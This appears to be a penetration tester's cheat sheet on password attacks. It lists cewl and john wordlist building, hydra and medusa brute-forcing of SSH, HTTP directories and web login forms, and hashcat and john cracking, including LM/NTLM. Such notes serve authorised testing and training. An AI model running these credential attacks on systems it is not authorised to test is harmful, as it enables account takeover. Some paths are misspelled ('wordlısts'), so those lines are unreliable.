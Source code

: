 #cracking #hash
## Cewl
`cewl http://<targetip>/ -m 6 -w cewl.txt`
`wc -l cewl.txt`
`john --wordlist=cewl.txt --rules --stdout > mutated.txt`
`wc mutated.txt`
`medusa -h <targetip> -u admin -P mutated.txt -M http -n 80 -m DIR:/directory/to/login/panel -T 30`

---

## Hydra

`hydra -l root -P /usr/share/wordlısts/rockyou.txt <targetip> ssh`
`hydra -L userlist.txt -P /usr/share/wordlısts/rockyou.txt <targetip> -s 22 ssh -V`

## crack web passwords
http-post-form can change as user module changes
Invalid: what message does the page give for wrong creds
for parameters check with burp

`hydra -l admin -P wordlist.txt <targetip> http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid" -t 64` 

---

## Medusa

`medusa -h <targetip> -u admin -P rockyou.txt -M http -m DIR:/test -T 10

---

## Hashcat

> learn the hash type from hashcat.net example hashes page and pass as its m value

or you can learn with the following command
`hashcat -h | grep -i lm
`hashcat -m 1600 hashes /usr/share/wordlists/rockyou.txt

---

## LM/NTLM
`hashcat -h | grep -i lm 
`hashcat -m 3000  hashes --rules --wordlist=/usr/share/wordlists/rockyou.txt`

https://hashkiller.co.uk/

---

When you find some digits, check if it's 32 bit
`echo -n ....... | wc -c`

------------------------------------------
## John
`john hashes.txt --rules --wordlist=/usr/share/wordlists/rockyou.txt`
